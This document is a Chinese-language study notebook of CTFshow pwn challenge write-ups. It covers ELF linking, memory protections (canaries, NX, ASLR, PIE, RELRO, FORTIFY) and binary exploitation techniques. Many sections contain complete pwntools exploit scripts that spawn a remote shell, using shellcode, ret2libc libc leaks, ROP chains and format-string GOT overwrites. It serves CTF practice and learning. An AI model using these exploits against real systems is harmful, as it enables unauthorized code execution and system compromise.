gcc hello.c -save-temps –verbose
-save-temps保存中间生成文件
–verbose查看详细工具流
- 预处理
gcc -E hello.c -o hello.i
- 编译
gcc -S hello.c -o hello.s
- 汇编
gcc -c hello.s -o hello.o
重定向文件
反汇编
objdump -sd hello.o -M intel
- 链接
gcc hello.o -o hello -static
默认动态，-static指定静态链接
objdump -sd hello -M intel
-M intel
- 指定反汇编的输出格式为 Intel 语法（而不是默认的 AT&T 语法）。
- Intel 语法是汇编语言的一种常见格式，通常更易于阅读。
-s 选项
- 显示文件的完整内容（包括十六进制和 ASCII 表示）。
- 例如，它会显示每个段的十六进制数据以及对应的 ASCII 字符。
-d 选项
- 反汇编文件中的可执行代码段。
- 例如，它会将二进制代码转换为汇编指令。
ELF文件
可执行文件.exec
可重定位文件，尚未链接 .rel
共享目标文件：动态链接库文件.dyc
结构
- 文件头

- 节头表

.text
.data
.bss
可执行文件的装载
运行一个可执行文件时，需要将该文件和动态链接库装载到进程空间中，形成一个进程镜像，每个进程都拥有独立的虚拟地址空间，这个空间日和布局是由记录在段头表的程序头决定的

地址空间分配
相似节合并
静态链接的详细过程
符号解析：每个符号（函数，变量）与定义关联
重定位：每个符号定义与内存地址关联
静态链接库：.a
动态链接
在运行或加载时，在内存中完成链接的过程，用于动态连接的系统库叫共享库
如funcq.elf和func2.elf不再包含单独的testlib.o，运行func1.elf时，系统将func1.elf和依赖的testlib.o装载如内存，然后进行动态链接，完成后系统将控制权交给程序入口点，当func2.elf想要执行时，由于内存中已经有testlib.o,因此不再重复加载
Stack Canaries
canary的值是栈上的一个随机数，在程序启动时随机生成并保存在比函数返回地址更低的地方，攻击者要想控制函数的返回指针，就一定要先覆盖到canary,如果被改变，则认为是发生了栈溢出
gcc默认使用stack canary保护，关闭方法加入“-fno-stack-protector”
NX
开启NX保护不能直接使用shellcode执行任意代码，gcc默认开启，关闭方法加-z execstack
ASLR
将程序的堆栈地址和动态链接库的加载地址进行一定的随机化，这些地址之间是不可读写执行的未映射内存，降低攻击者对程序内存结构的了解程序

关闭方式，修改/proc/sys/kernel/randomize_va_space文件的内容为0
PIE
让ELF地址随机化加载，使得程序的内存结构对攻击者未知，进一步提高程序的安全性
开启-fpic-pie
关闭-no-pie
Full Relro
开启“-z relro”
.GOT.PLT和.PLT的作用
一个程序想调用动态链接库中的函数，必须使用.GOT.PLT和.PLT配合完成调用
.PLT表是一段代码，从内存中取出一个地址然后跳转
.GOT.PLT表存放实际地址
由于Linux的Lazy binding机制，没有开启Full Rello的ELF种，某个函数必须被调用，.GOT.PLT表才会存放函数的真实地址
int __cdecl main(int argc, const char **argv, const char **envp)`: 这是 `main` 函数的定义，它接受三个参数，分别是程序的参数数量 `argc`、参数列表 `argv` 和环境变量 `envp
v6 = __readfsqword(0x28u);: 这一行读取了 FS 寄存器偏移 0x28 处的值并存储到 v6 中
setvbuf(_bss_start, 0LL, 2, 0LL); 和 setvbuf(stdin, 0LL, 2, 0LL);: 这两行调用了 setvbuf 函数，用于设置缓冲区类型。第一个调用将 _bss_start 的缓冲区类型设置为无缓冲，第二个调用将标准输入的缓冲区类型设置为无缓冲。
strcpy(s1, "CTFshowPWN");: 这行将字符串 "CTFshowPWN" 复制到 s1 数组中
if ( !strcmp(s1, s2) ) execve_func();: 这行使用 strcmp 函数比较 s1 和 s2 是否相等，如果相等，则调用 execve_func 函数。
setvbuf: 这个函数用于设置文件流的缓冲区类型。它允许程序员控制标准 I/O 库中文件流的缓冲方式。通常，我们可以将文件流设置为无缓冲、行缓冲或全缓冲。在这个代码中，setvbuf 函数被用于设置 _bss_start 和标准输入流 stdin 的缓冲类型为无缓冲，这意味着每次输出都会立即被写入，而不会先缓存在内存中。
strcpy: 这个函数用于将一个字符串复制到另一个字符串数组中。它接受两个参数，第一个参数是目标字符串数组，第二个参数是源字符串。strcpy 会将源字符串的内容逐个字符地复制到目标字符串数组中，直到遇到源字符串的结束符 \0。
puts: puts 函数用于向标准输出打印字符串，并在最后自动添加一个换行符 \n。它接受一个字符串作为参数，并将其打印到标准输出流中。
scanf: 这个函数用于从标准输入流中读取输入。它接受格式化字符串作为第一个参数，用于指定输入的格式，以及一系列指向变量的指针，用于存储读取到的值。在这个代码中，scanf 被用于从标准输入中读取一个字符串，并将其存储到 s2 字符数组中。
strcmp: 这个函数用于比较两个字符串是否相等。它接受两个字符串作为参数，并返回一个整数值，如果两个字符串相等则返回0，否则返回它们第一个不相等字符的 ASCII 差值。在这个代码中，strcmp 用于比较 s1 和 s2 是否相等，如果相等则返回0，程序将执行 execve_func 函数。
execve("/bin/sh", argv, 0LL);: 这一行调用了 execve 函数，用于执行一个程序。它接受三个参数，分别是要执行的程序路径、参数列表和环境变量列表。在这里，它执行了 /bin/sh，并传递了一个空的参数列表和环境变量列表，表示没有额外的参数和环境变量。
IDA转换数据：C（转换为代码）、D（转换为数据）、A（转换为字符）、N（为标签重命名)
checksec查看文件信息
read()读取
strcat()赋值
system()调用
echo»在文件后面追加内容
echo>覆盖文件
fork()创建了子进程，fclose(_bss_star)关闭了输出流，即使后面再输入，也不会有回显，在命令后加上>&0 ，将命令的输出重定向到标准输入，也就是将命令的输出内容发送到与终端或键盘关联的地方

链接重定位
.text
...
// 调用printf的call指令
call printf_stub
...
printf_stub:
mov rax, [printf函数的储存地址] // 获取printf重定位之后的地址
jmp rax // 跳过去执行printf函数
.data
...
printf函数的储存地址：
这里储存printf函数重定位后的地址

.got和.got.plt是否可写与RELRO有关，这是linux系统下可执行文件的一种保护机制，它用于增强程序的安全性，特别是针对共享库的攻击。RELRO机制通过将部分ELF段标记为只读，防止攻击者利用全局偏移表（GOT）和过程链接表（PLT）进行攻击。规定如下：
当RELRO为Partial RELRO时，表示.got不可写而.got.plt可写。 当RELRO为FullRELRO时，表示.got不可写.got.plt也不可写。 当RELRO为No RELRO时，表示.got与.got.plt都可写。
可以通过checksec命令来获取可执行文件的部分保护机制信息。
可以通过readelf -S命令查看文件的各个段的详细信息，其中就包括了.got和.got.plt表的地址 用objdump -h pwn命令查看elf头信息，VMA即地址（虚拟地址和物理地址相同)


只要传参src，长度大于0x3Eh+0x4就会发生溢出,使用./(file)传参

pwn24

调用read函数，读取输入，存入[ebp+buf]中，lea eax [ebp+buf]把地址存入eax中，然后，call eax执行

NX是disables，说明可以用shellcode进行攻击
from pwn import *
p=remote("pwn.challenge.ctf.show",28284)#与服务器的pwn文件建立联系
shell=asm(shellcraft.sh())#利用shellcraft模块生成调用系统shell（/bin/sh）的shellcode。这个shellcode可以用于执行命令行命令
p.sendline(shell)#向远程发送shellcode
p.interactive()#建立交互式对话
就获得控制台权限了
pwn25
ret2libc
from pwn import *
from LibcSearcher import *
context.log_level = 'debug'
p = remote('pwn.challenge.ctf.show',28162)
elf = ELF('pwn1')
offset = 0x88 + 0x4
puts_plt = elf.symbols['puts']
puts_got = elf.got['puts']
main = elf.symbols['main']
# payload：0x88+0x4个无用填充字符覆盖到返回地址，
# 将puts函数plt表地址做返回地址，代表ctfshow函数执行完会执行puts函数，
# main_addr是puts函数执行完后的返回地址，使用puts函数执行完后回到main函数继续利用溢出漏洞
# puts函数got表中的地址作为puts函数执行的参数，让puts函数输出puts函数在内存的地址
payload = b'a' * offset + p32(puts_plt) + p32(main) + p32(puts_got)
p.sendline(payload)
# 接收puts函数输出的puts函数在内存的地址
puts_addr = u32(p.recv()[0:4])
print(hex(puts_addr))
# 在根据内存中puts函数的地址寻找相应的libc版本中puts函数的地址
libc = LibcSearcher("puts",puts_addr)
# 找到libc中的puts函数地址之后，将内存的puts函数地址减去libc中的puts函数地址就得到了libc的基地址
libc_base = puts_addr - libc.dump("puts")
print(hex(libc_base))
# 使用libc.dump("system")找到libc中的system函数地址，再加上基地址就得到system函数在内存的地址
system_addr = libc_base + libc.dump("system")
# 使用libc.dump("str_bin_sh")找到libc中的"/bin/sh"字符串地址，再加上基地址就得到"/bin/sh"字符串在内存的地址
binsh_addr = libc_base + libc.dump("str_bin_sh")
# payload：填充栈空间到返回地址，将返回地址覆盖为system函数的地址
# 然后填充执行system函数之后的返回地址，填充什么都可以，但是长度必须为4
# 最后填入system的参数“/bin/sh”
payload = offset * b'a' + p32(system_addr) + b'a' * 4 + p32(binsh_addr)
p.sendline(payload)
p.recv()
p.interactive()
pwn26

SLR（Address Space Layout Randomization）是一种计算机安全机制，旨在增加恶意攻击者在系统上成功执行攻击的难度。ASLR通过随机化进程的地址空间布局来防止攻击者依赖于已知的内存地址，从而增加了攻击的复杂性。ASLR可以随机化以下组件的位置：
栈：包含函数调用和局部变量的区域。
堆：用于动态分配内存的区域。
共享库：动态链接的共享库的加载地址。
代码段：包含程序指令的区域。
在 Linux 系统中，/proc/sys/kernel/randomize_va_space 是一个控制和查看ASLR的接口文件。
/proc/sys/kernel/randomize_va_space 可以具有以下值：
0：表示 ASLR 被禁用。在这种情况下，进程的地址空间将不会随机化，各个组件的地址位置将是固定的。
1：表示 ASLR 已启用，但只会对共享库的地址进行随机化。即在每次运行时，共享库的加载地址会发生变化，而进程的栈、堆和代码段的地址位置仍然是固定的。
2：表示 ASLR 已启用，对进程的地址空间中的所有组件（包括栈、堆、共享库和代码段）进行完全随机化。这是最安全的设置，因为每次运行时，进程的所有组件的地址位置都会发生变化。
pwn29
PIE全称是position-independent executable，中文解释为地址无关可执行文件，该技术是一个针对代码段（.text）、数据段（.data）、未初始化全局变量段（.bss）等固定地址的一个防护技术，如果程序开启了PIE保护的话，在每次加载程序时都变换加载地址，从而不能通过ROPgadget等一些工具来帮助解题。在PIE和ASLR同时开启的情况下，攻击者将对程序的内存布局一无所知，大大增加了利用难度。然而在增加安全性的同时，PIE也会一定程度上影响性能，因此在大多数操作系统上PIE仅用于一些对安全性要求比较高的程序。 


可以看到executable:后面输出的是main函数的地址，由于PIE保护，已经发生了变化
pwn30

溢出漏洞，用ret2libc,用于绕过栈溢出漏洞等缓冲区溢出漏洞的防御措施（比如NX防御机制），以实现代码执行或提升攻击者权限。
from pwn import *
from LibcSearcher import *
# 打印调试信息
context.log_level = 'debug'
# 建立连接
p = remote("pwn.challenge.ctf.show", "28309")
elf = ELF("./pwn")
# 溢出偏移地址
offset = 0x88 + 0x4
# main函数地址
main_addr = elf.symbols['main']
# plt表中puts函数地址
puts_plt = elf.plt['puts']
# got表中puts函数的地址
puts_got = elf.got['puts']
# payload：0x88+0x4个无用填充字符覆盖到返回地址，
# 将puts函数plt表地址做返回地址，代表ctfshow函数执行完会执行puts函数，
# main_addr是puts函数执行完后的返回地址，使用puts函数执行完后回到main函数继续利用溢出漏洞
# puts函数got表中的地址作为puts函数执行的参数，让puts函数输出puts函数在内存的地址
payload = offset * b'a' + p32(puts_plt) + p32(main_addr) + p32(puts_got)
# 发送payload
p.sendline(payload)
# 接收puts函数输出的puts函数在内存的地址
puts_addr = u32(p.recv()[0:4])
print(hex(puts_addr))
# 根据内存中puts函数的地址寻找相应的libc版本中puts函数的地址
libc = LibcSearcher("puts", puts_addr)
# 找到libc中的puts函数地址之后，将内存的puts函数地址减去libc中的puts函数地址就得到了libc的基地址
libc_base = puts_addr - libc.dump("puts")
print(hex(libc_base))
# 使用libc.dump("system")找到libc中的system函数地址，再加上基地址就得到system函数在内存的地址
system_addr = libc_base + libc.dump("system")
# 使用libc.dump("str_bin_sh")找到libc中的"/bin/sh"字符串地址，再加上基地址就得到"/bin/sh"字符串在内存的地址
binsh_addr = libc_base + libc.dump("str_bin_sh")
# payload：填充栈空间到返回地址，将返回地址覆盖为system函数的地址
# 然后填充执行system函数之后的返回地址，填充什么都可以，但是长度必须为4
# 最后填入system的参数“/bin/sh”
payload = offset * b'a' + p32(system_addr) + b'a' * 4 + p32(binsh_addr)
p.sendline(payload)
p.interactive()
哎，有些难理解
pwn32
Fortify功能
在使用FORTIFY_SOURCE功能的编译器环境中，当检测到潜在的缓冲区溢出或其他内存错误时，编译器会自动替换对应的不安全C库函数（例如strcpy，memcpy等）调用为更安全的版本。这些安全版本的函数在执行前会进行一些边界检查，以确保不会发生缓冲区溢出。
此外，FORTIFY_SOURCE还会对格式化字符串函数（如printf、scanf等）的参数进行检查，以确保其格式化字符串参数与实际参数的类型匹配，从而避免格式化字符串漏洞。
本质上一种检查和替换机制，对GCC和glibc的一个安全补丁，目前支持memcpy, memmove, memset, strcpy, strncpy, strcat, strncat,sprintf, vsprintf, snprintf, vsnprintf, gets等。
·FORTIFY_SOURCE=0: 这是Fortify Source功能的默认级别，也就是禁用状态。
·FORTIFY_SOURCE=1: 这是第一个启用级别。如果编译器在编译时检测到潜在的缓冲区溢出或其他内存错误，它将生成一个运行时检查的警告，但程序仍然会继续执行。例如，会将strcpy替换为__strcpy_chk，memcpy替换为__memcpy_chk等。
·FORTIFY_SOURCE=2: 这是最高级别的启用。如果编译器在编译时检测到潜在的缓冲区溢出或内存错误，它将生成一个运行时检查的错误，并且程序的执行将被终止

fgets(char *str, int n, FILE *stream) 从指定的流 stream 读取一行，并把它存储在 str 所指向的字符串内，n是要读取的最大字符串长度
getgid()用来取得执行目前进程的组识别码
strtol() 函数将字符串转换为长整数值
*(_QWORD *)作为一个整体，通常用于将一个地址（或其他整数）转换为一个指向64位无符号整数的指针，并获取该地址上的值。
memcpy(void *str1, const void *str2, size_t n) 从存储区 str2 复制 n 个字节到存储区 str1
对函数的解释
main函数三个参数，argc是命令行参数的数量，argv是命令行字符串数组，envp是环境变量数组
setresgid(v3, v3, v3)：将当前进程的真实 GID、有效 GID 和保存的 GID 都设置为v3的值
v4 = argv[1]：将第一个命令行参数赋值给v4。\*(_QWORD \*)buf1 = \*(_QWORD \*)v4：将v4的前 8 个字节复制到buf1中。（QWORD八个字节）\*(_WORD \*)&buf1[8] = \*((_WORD \*)v4 + 4)：将v4的第 9 和第 10 个字节复制到buf1的第 9 和第 10 个位置。（WORD两个字节）buf1[10] = v4[10]：将v4的第 11 个字节复制到buf1的第 11 个位置。- 作用：将
argv[1]的内容复制到buf1中。

- 处理命令行参数，将其复制到缓冲区中。
- 打印缓冲区内容。
- 从标准输入读取数据并打印。
- 检查命令行参数数量，如果超过 4 个，调用未定义函数。
pwn33
现在FORTIFY_SOURCE=1，即Fortify 功能已启用。附件是64位elf，用IDA打开，可以看到上题中的strcpy被替换为__strcpy_chk，memcpy被替换为__memcpy_chk，也加上了11LL的限制防止溢出，这是第一级Fortify的特征
-
`__memcpy_chk(buf1, argv[2], v5, 11LL)` 中： - **`buf1`**：目标缓冲区，数据将被复制到这里。 - **`argv[2]`**：源缓冲区，数据从这里复制（通常是命令行参数的第二个参数）。 - **`v5`**：要复制的字节数。 - **`11LL`**：目标缓冲区 `buf1` 的实际大小（11 字节）。 __memcpy_chk 的功能是将 argv[2] 中的 v5 个字节复制到 buf1 中，但在复制之前会检查目标缓冲区 buf1 的大小是否足够： 如果 v5 超过了 buf1 的大小（11 字节），__memcpy_chk 会触发缓冲区溢出保护机制，终止程序并输出错误信息。 如果 v5 小于或等于 buf1 的大小，则正常执行复制操作。 __strcpy_chk 的功能是将 argv[1] 中的字符串复制到 buf2 中，但在复制之前会检查目标缓冲区 buf2 的大小是否足够： 如果 argv[1] 的长度（包括字符串结束符 \0）超过了 buf2 的大小（11 字节），__strcpy_chk 会触发缓冲区溢出保护机制，终止程序并输出错误信息。 如果 argv[1] 的长度小于或等于 buf2 的大小，则正常执行复制操作。
前者是带缓冲区的内存复制函数，后者是带缓冲区的字符串复制函数
pwn34
此时FORTIFY_SOURCE=2，启用了第二级Fortify，用IDA打开附件查看，此时printf函数也被替换成了__printf_chk，Undefined函数前的if条件也没了
pwn35
sprintf就是把格式化的数据写入到某个字符串中。返回值字符串的长度。
fprintf()函数根据指定的format(格式)发送信息(参数)到由stream(流)指定的文件.因此fprintf()可以使得信息输出到指定的文件。
stdout, stdin, stderr的中文名字分别是标准输出，标准输入和标准错误。
stdout是行缓冲的，他的输出会放在一个buffer里面，只有到换行的时候，才会输出到屏幕。而stderr是无缓冲的，会直接输出，
fflush()刷新缓冲区
注意到signal(11, (__sighandler_t)sigsegv_handler);Signal 11错误，也称为“Segmentation fault”，是一种用于提示Unix系统程序出现错误的信号。当应用程序试图对无权访问的内存地址进行读写操作时,会调用 sigsegv_handler 函数,sigsegv_handler 函数 会把stderr打印输出,即将flag的值打印输出那么我们直接输入超长数据就会溢出，程序就会崩溃进而打印出flag strcpy函数（strcpy函数没有长度限制）这个函数是一个典型的可以用来利用溢出的函数。所以我们可以在这里进行栈溢出。

pwn36
仅开了RELRO
危险函数gets()函数

题目说了，利用后门函数，找到get_flag函数的位置，和偏移量0x28，ebp在s上面0x28处
栈结构
+-----------------+
| retaddr |
+-----------------+
| saved ebp |
ebp--->+-----------------+
| |
| |
| |
| |
| |
| |
s,ebp-0x14-->+-----------------+
覆盖后
+-----------------+
| 0x0804843B |
+-----------------+
| bbbb |
ebp--->+-----------------+
| |
| |
| |
| |
| |
| |
s,ebp-0x14-->+-----------------+
exp
from pwn import *
r =remote('pwn.challenge.ctf.show',28197)
offset =0x28
flag_address = 0x08048586
payload = offset * b'a'+ b'bbbb'+ p32(flag_address)
r.sendline(payload)
r.interactive()
pwn37
system("/bin/sh")调用默认shell来传入命令字符串，和上面一样
pwn38
64位，注意堆栈平衡！
可以直接用gdb看汇编代码
gdb pwn
disass backdoor
cyclic 200
填充字符串

cyclic -l 地址
看偏移，偏移量最后要加8（堆栈平衡）
IDA中找ret地址
from pwn import *
io = remote("pwn.challenge.ctf.show", "28220")
offset = 0xa + 0x8
ret_addr = 0x0000000000400287
backdoor_addr = 0x0000000000400657
payload = offset * b'a' + p64(ret_addr) + p64(backdoor_addr)
io.sendline(payload)
io.interactive()
pwn39
没有后门函数，但是有hint

得到偏移量

拿到/bin/sh的地址

拿到system的地址
objdump -d -j .plt pwn

查看IDA也可

from pwn import *
io = remote("pwn.challenge.ctf.show", "28241")
offset = 22
binsh_addr = 0x08048750
system_addr = 0x080483a0
payload = offset * b'a' + p32(system_addr) +b'bbbb'+ p32(binsh_addr)
io.sendline(payload)
io.interactive()
补充一下：代表是system函数的返回地址，由于不需要返回到某个地方，所以直接使用bbbb代替四个字节
pwn94
找到格式化字符串的位置
aaaa-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x
aaaa-ff9474a8-64-80486e5-1-0-61616161-2d78252d-252d7825-78252d78-2d78252d-252d7825
aaaa：这是一个固定的字符串，用于在栈上标记一个已知值（0x61616161，即aaaa的ASCII码）。-%x：%x是格式化字符串中的占位符，用于以十六进制格式打印栈上的值。
验证：
aaaa%6$p
aaaa0x61616161
%6$p：这是一个格式化字符串占位符，表示打印栈上第6个位置的值（以指针格式）。
拖进IDA反汇编，发现有sys函数

from pwn import *
context.log_level = 'debug'
#io = process('./fmt')
io = remote('pwn.challenge.ctf.show',28124)
elf = ELF('./pwn')
offset = 6
printf_got = elf.got['printf']
system_plt = elf.plt['system']
payload = fmtstr_payload(offset,{printf_got:system_plt})
io.sendline(payload)
io.recv()
io.sendline('/bin/sh\x00')
io.interactive()
printf_got = elf.got['printf']:
- 获取
printf函数在GOT（Global Offset Table）中的地址。GOT表用于存储动态链接函数的实际地址。
system_plt = elf.plt['system']:
- 获取
system函数在PLT（Procedure Linkage Table）中的地址。PLT表用于调用动态链接的函数。
payload = fmtstr_payload(offset, {printf_got: system_plt}):
- 使用
pwntools的fmtstr_payload函数生成一个格式化字符串漏洞的利用载荷。这个载荷会将printf函数的GOT表项修改为system函数的地址。 offset是格式化字符串的偏移量。{printf_got: system_plt}表示将printf_got地址处的值修改为system_plt。
io.sendline('/bin/sh\x00')**:
- 发送字符串
/bin/sh给目标程序。由于printf的GOT表项已经被修改为system，因此当程序调用printf时，实际上会调用system('/bin/sh')，从而启动一个shell。
pwn95
与上一道题目不一样，没有了sys函数，需要去泄露libc，然后再修改GOT
自动检测字符串偏移量
def exec_fmt(payload):
io.sendline(payload)
info = io.recv()
return info
auto = FmtStr(exec_fmt)
offset = auto.offset
exp
from pwn import *
context.log_level = 'debug'
io = remote('pwn.challenge.ctf.show',28291)
elf = ELF('./pwn')
libc = ELF('/lib/i386-linux-gnu/libc.so.6')
def exec_fmt(payload):
io.sendline(payload)
info = io.recv()
return info
auto = FmtStr(exec_fmt)
offset = auto.offset
printf_got = elf.got['printf']
payload = p32(printf_got) + ('%{}$s'.format(offset)).encode()
io.send(payload)
printf = u32(io.recv()[4:8])
system = printf - libc.sym['printf'] + libc.sym['system']
log.info("system ===> %s" % hex(system))
// 通过printf函数的实际地址和libc库中的符号偏移量，计算出system函数的地址。
// printf - libc.sym['printf']：计算libc库的基地址。
// + libc.sym['system']：加上system函数的偏移量，得到system函数的实际地址。
// 使用log.info输出system函数的地址。
payload = fmtstr_payload(offset,{printf_got:system})
io.send(payload)
//使用pwntools的fmtstr_payload函数生成一个格式化字符串漏洞的利用载荷。
// offset：格式化字符串的偏移量。
// {printf_got: system}：将printf_got地址处的值修改为system函数的地址。
//发送载荷，触发格式化字符串漏洞，修改printf的GOT表项为system函数的地址
io.send('/bin/sh')
io.recv()
io.interactive()
pwn96
fgets(s, 64, stdin);//读取用户输入，最多64字节
printf(s);//这一行直接将用户控制的输入 s 作为 printf 的格式字符串。这是一个经典的格式字符串漏洞。攻击者可以通过在他们的输入中提供格式说明符（例如， %x 、 %s 、 %n ）来利用它：
为了修复这个漏洞，在调用 printf 时始终使用格式化字符串
printf("%s", s);
ctfshow{" 开头,转换为16进制就是 63 74 66 73 68
6f 77 7b
然后倒序就是 0x73667463 0x7b776f68,
EXP
'''泄露栈中的字符串'''
from pwn import *
context(arch = 'i386',os = 'linux',log_level = 'debug')
#io = process('./pwn')
io = remote('pwn.challenge.ctf.show',28189)
flag=b''
for i in range(6,6+12):
payload='%{}$p'.format(str(i)).encode()
io.sendlineafter(b'$ ',payload)
aim = unhex(io.recvuntil(b'\n',drop=True).replace(b'0x',b''))
flag += aim[::-1]
print(flag.decode())
io.close()
注意所有部分都是字节对象！
%{}p` 中的 `{}` 会被替换为当前的 `i` 值，例如 `%1p`、`%2p
.replace('0x', '')：去掉返回数据中的 0x 前缀
unhex()将十六进制转换成字节
io.recvuntil('\n', drop=True)：接收服务器返回的数据，直到遇到换行符 \n，并丢弃换行符。
aim[::-1]逆向
pwn101

v4和v5初始化，输入两个整数，把它转换成无符号整数，并赋值给v4和v5，如果v4=0x80000000,v5=0x7FFFFFFF,给flag，但是要求输入十进制，快捷键’H‘转换数据类型
from pwn import *
io = remote('pwn.challenge.ctf.show',28275)
payload = "-2147483648 2147483647"
io.sendlineafter("Enter two intergers:",payload)
io.interative()
pwn102

要求输入无符号整型，输入4294967295就行
pwn105
整形溢出
int __cdecl main(int argc, const char **argv, const char **envp)
{
char buf[1024]; // [esp+0h] [ebp-408h] BYREF
int *p_argc; // [esp+400h] [ebp-8h]
p_argc = &argc;
init();
logo();
puts("[+] Check your permissions:");
read(0, buf, 0x400u);
ctfshow(buf);
puts("wtf");
return 0;
}
char *__cdecl ctfshow(char *s)
{
char dest[8]; // [esp+7h] [ebp-11h] BYREF
unsigned __int8 v3; // [esp+Fh] [ebp-9h]
v3 = strlen(s);
if ( v3 <= 3u || v3 > 8u )
{
puts("Authentication failed!");
exit(-1);
}
printf("Authentication successful, Hello %s", s);
return strcpy(dest, s);
}
unsigned __int8 v3 要求无符号8位整数
strcpy(dest, s) 将会复制8个字符加上一个空字符 \0，总共9个字符，
这里就是检查字符串长度，思考：如何bypass这个if条件
dest的栈长度为0x11,缓冲区buf长度0x400，unsigned __int8 v3从0到255字节就截断，就是说256字节是0，257字节表示1，258字节表示3，可以利用这个条件构造payload，使payload长度足够长
pwn107
流程：先想如何绕过整数限制，泄露printf地址，计算libc基址，计算system和/bin/sh的地址，调用system("/bin/sh")
from pwn import *
context(arch = 'i386',os = 'linux',log_level = 'debug')
io =remote('pwn.challenge.ctf.show',28167)
elf = ELF('./pwn')
libc = ELF('/lib/i386-linux-gnu/libc.so.6') # 使用系统默认的 libc 文件路径
io.sendlineafter(b'read?',b'-1')
io.recv()
main = elf.symbols['main']
printf_got = elf.got['printf']
printf_plt = elf.plt['printf']
payload = b'a'*(0x2c + 4)+p32(printf_plt) + p32(main) + p32(printf_got)
io.sendline(payload)
printf = u32(io.recv(4))
print(hex(printf))
libc_base = printf - libc.symbols['printf']
system = libc_base + libc.symbols['system']
binsh = libc_base + next(libc.search(b'/bin/sh'))
io.sendlineafter(b'read?',b'-1')
io.recv()
payload = b'a'*(0x2c + 4)+p32(system) + p32(main) + p32(binsh)
io.sendline(payload)
io.interactive()
思考：为什么是printf = u32(io.recv(4))，print(hex(printf))
data = io.recv(4) # 返回 b'\x7f\x45\x4c\x46'
printf = u32(data) # 解析为整数 0x464c457f
print(hex(printf)) # 打印 0x464c457f
pwn41
system("/bin/sh")是直接指定了系统默认的shell程序路径来执行命令,system(“sh”)则依赖系统的环境变量$PATH来寻找sh可执行文件

from pwn import *
context.log_level = 'debug'
io = remote('pwn.challenge.ctf.show',28166)
elf = ELF('./pwn(2)')
system = elf.symbols['system']
sh = 0x080487BA
payload = b'a'*(0x12+4)+p32(system)+p32(0)+p32(sh)
io.sendline(payload)
io.recv()
io.interactive()
pwn42
和前面一样，仅仅是32位和64位的区别
ROPgadget --binary ./pwn
from pwn import *
io = remote('pwn.challenge.ctf.show',28139)
elf=ELF("pwn(3)")
system =elf.sym['system']
sh =0x400872
pop_rdi =0x400843
ret = 0x40053e
payload = b'a'*(0xA+8)+ p64(pop_rdi)+p64(sh)+p64(ret)+p64(system)
io.sendline(payload)
io.recv()
io.interactive()
pwn43
没有‘bin/sh’需要自己构造，先调用gets()函数，p32(gets),将gets函数的地址作为返回地址覆盖到栈上，是程序在溢出时调用gets函数，拍2
使用pop_ebx指令将buf2的地址加载到寄存器ebx中，最后覆盖返回地址为system函数的地址

通过覆盖返回地址，将gets函数的地址作为返回地址覆盖到栈上，使用pop_ebx指令将buf2的地址加载到寄存器ebx中，最后覆盖返回地址为system函数的地址，执行system(buf2)指向的字符串，p32(gets)将gets函数的地址作为返回地址覆盖到栈上，是程序在溢出时调用gets函数，pop_ebx用于将栈上的值弹出并存储到寄存器ebx中，buf2是一个指向存储输入数据的缓冲区的指针，p32(system)将system函数的地址作为返回地址覆盖到栈上，‘aaaa’这部分是一个4字节的字符串，用于填充栈上的返回地址的剩余空间。
from pwn import *
context.log_level = 'debug'
io =remote('pwn.challenge.ctf.show',28141)
elf = ELF('pwn4')
gets = elf.symbols['gets']
system = elf.symbols['system']
buf2 = 0x0804B060
pop_ebx = 0x08048409
payload = cyclic(0x6C+4)+p32(gets)+p32(pop_ebx)+p32(buf2)+p32(system)+p32(0)+p32(buf2)
io.sendline(payload)
io.sendline('/bin/sh')
io.recv()
io.interactive()
pwn44
补充下32位和64位调用规定
32位：参数通过栈传递，p32(system)后需要跟参数地址
64位：前6个参数通过寄存器传递，如rdi，rsi等
from pwn import *
context(arch = 'amd64',os = 'linux',log_level = 'debug')
io =remote("pwn.challenge.ctf.show",28242)
\#io = process("./pwn44")
elf =ELF("pwn3")
system = elf.symbols["system"]
gets = elf.symbols["gets"]
pop_rdi=0x4007f3
buf2=0x602080
payload = cyclic(0xA+8)+p64(pop_rdi)+p64(buf2)+p64(gets)+p64(pop_rdi)+p64(buf2)+p64(system)
io.sendline(payload)
io.sendline("/bin/sh")
io.interactive()
pwn45
没有system，也没有“bin/sh”
-
泄露write函数地址获取 libc 版本
-
获取 system 地址与 /bin/sh 的地址
-
再次执行源程序
-
触发栈溢出执行 system(‘/bin/sh’)

（可以利用puts函数）
from pwn import *
from LibcSearcher import *
context.log_level = 'debug'
io =remote('pwn.challenge.ctf.show',28149)
elf = ELF('pwn')
main = elf.symbols['main']
write_got=elf.got['write']
write_plt=elf.plt['write']
payload = cyclic(0x6b+4) + p32(write_plt) + p32(main) + p32(0) +p32(write_got) + p32(4)
io.sendline(payload)
write=u32(io.recvuntil(b'\xf7')[-4:])
#write在got表的地址
print(hex(write))
libc = LibcSearcher('write',write)
libc_base=write-libc.dump('write')
system = libc_base+libc.dump('system')
binsh = libc_base+libc.dump('str_bin_sh')
payload = cyclic(0x6b+4)+p32(system)+p32(main)+p32(binsh)
io.sendline(payload)
io.recv()
io.interactive()
pwn47

一看直接打印地址，手动写自动脚本都行
from pwn import *
from LibcSearcher import *
# 设置目标程序
context(arch='amd64', os='linux', log_level='debug')
# 本地调试或远程连接
# io = process('./vulnerable_binary') # 本地
io = remote('pwn.challenge.ctf.show', 28266) # 远程
elf =ELF('pwn6')
io.recvuntil("puts: ")
puts = eval(io.recvuntil('\n', drop=True))
bin_sh = 0x0804B028
libc = LibcSearcher('puts', puts)
libc_base = puts - libc.dump('puts')
system = libc_base + libc.dump('system')
bin_sh = libc_base + libc.dump('str_bin_sh')
payload = cyclic(0x9C + 4) + p32(system) + p32(0) + p32(bin_sh)
io.sendline(payload)
io.recv()
io.interactive()
pwn48
from pwn import *
from LibcSearcher import *
context.log_level = 'debug'
io = remote('pwn.challenge.ctf.show',28103)
elf =ELF('pwn8')
main = elf.symbols['main']
puts_got = elf.got['puts']
puts_plt = elf.plt['puts']
io.recvuntil("O.o?")
payload = cyclic(0x6b+4)+p32(puts_plt)+p32(main)+p32(puts_got)
io.sendline(payload)
puts = u32(io.recvuntil(b'\xf7')[-4:])
print(hex(puts))
libc =LibcSearcher('puts',puts)
libc_base = puts-libc.dump('puts')
binsh = libc_base + libc.dump('str_bin_sh')
system = libc_base + libc.dump('system')
payload = cyclic(0x6b+4)+p32(system)+p32(main)+p32(binsh)
io.sendline(payload)
io.recv()
io.interactive()
总算明白了payloa的区别了
payload = cyclic(0x9C+4)+p32(puts_plt)+p32(0)+p32(puts_got)+p32(4)
